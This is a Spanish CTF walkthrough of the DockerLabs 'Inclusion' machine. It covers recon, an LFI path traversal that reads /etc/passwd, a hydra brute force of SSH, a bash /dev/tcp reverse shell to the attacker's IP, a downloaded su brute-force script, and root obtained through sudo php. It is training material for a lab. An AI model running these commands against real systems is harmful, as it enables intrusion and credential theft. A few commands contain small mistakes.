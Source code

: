 # Máquina Inclusion

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03cf7254de54aecd2a16586b8af552dc (ECDSA)
|_  256 13bbc212f59730a149c7f9d0bad05ef7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos algo más de info sobre el puerto 80 y 22. Vamos a echarle un vistazo a la web que corre por el puerto 80.

![Pasted image 20240414234421](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ee73b905-00c4-41ff-ba59-5f00da5969b2)

Es la web por defecto de apache, así que aplicamos **Fuzzing** con **gobuster**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
-------------------------------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/shop/                (Status: 200) [Size: 1112]
/server-status/       (Status: 403) [Size: 275] 
```

Encontramos un directorio **/shop**, accedemos, y nos encontramos con una pista.

![Pasted image 20240415001358](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/24b5bc57-55da-4e87-a4cd-21e6cc1859ba)

_**"Error de Sistema: ($_GET['archivo']");**_

Esto nos dice que se está usando un parámetro llamado **archivo** en la url para pasarle un valor e incluir un archivo en la web. Esto puede ser vulnerable ante un **LFI** (Local File Inclusion)

Tras varias pruebas, conseguimos leer archivos de la máquina mediante un **Path traversal**

```
http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd
```

![Pasted image 20240415001300](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7d86c4b-6b6b-4ebc-902b-4650a6d9a1ad)

Teniendo un **LFI** podemos tratar de derivarlo a un **RCE** (Remote Code Execution) mediante un **Log Poisoning** o envenenamiento de los logs del sistema. Consistirá en inyectar código malicioso mediante peticiones al sistema, que posteriormente llegue a ser interpretado por medio del **LFI**.

![Pasted image 20240415002355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a7ccb2b-005d-4361-a578-9e693ce78de5)

Tenemos dos usuarios, **manchi** y **seller**. En este punto he intentado listar logs de apache, de ssh, claves privadas de estos dos usuarios para ssh, pero nada ha dado resultado. Por lo tanto, he hecho fuerza bruta al protocolo **ssh** con **hydra** para los dos usuarios. Y el usuario **manchi**, tenía una contraseña fácil, por lo tanto hemos conseguido adivinarla con **hydra**.

```shell
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
----------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

Credenciales -> **manchi:lovely**
Accedemos por **ssh**.

```
ssh manchi@172.17.0.2
```

---------------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Revisamos directorio home de manchi, capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia el usuario **seller** desde la propia máquina. Nos transferiremos también el diccionario **rockyou**.

Nos descargamos el script.sh del siguiente repositorio en la **máquina atacante**-> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
```

Probamos a transferirlo con **wget** o **curl** pero no es posible porque no están instalados.
Los transferiremos utilizando **SCP** (Secure Copy) a la máquina con la dirección IP 172.17.0.2 a través de SSH.

Desde la máquina atacante indicamos la ruta del archivo a tranferir y la ruta de la máquina víctima donde se alojará:

```shell
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Le daremos permisos de ejecución y lo ejecutaremos hacia el usuario **seller*:

```shell
./Linux-Su-Force.sh seller rockyou.txt 
-----------------------------------------
Contraseña encontrada para el usuario seller: qwerty
```

Hemos encontrado la contraseña! -> **qwerty**
Migramos al usuario **seller**:

```shell
su seller
```

Usaremos "**sudo -l**" para ver si el usuario **seller** puede ejecutar algún binario con permisos privilegiados.

```shell
sudo -l
--------------------------------------
 (ALL) NOPASSWD: /usr/bin/php
```

Puede ejecutar **php**.
Podemos abusar de este con los siguiente comandos:

```shell
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Si no sabemos como abusar de algún binario o lo desconocemos, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximo!
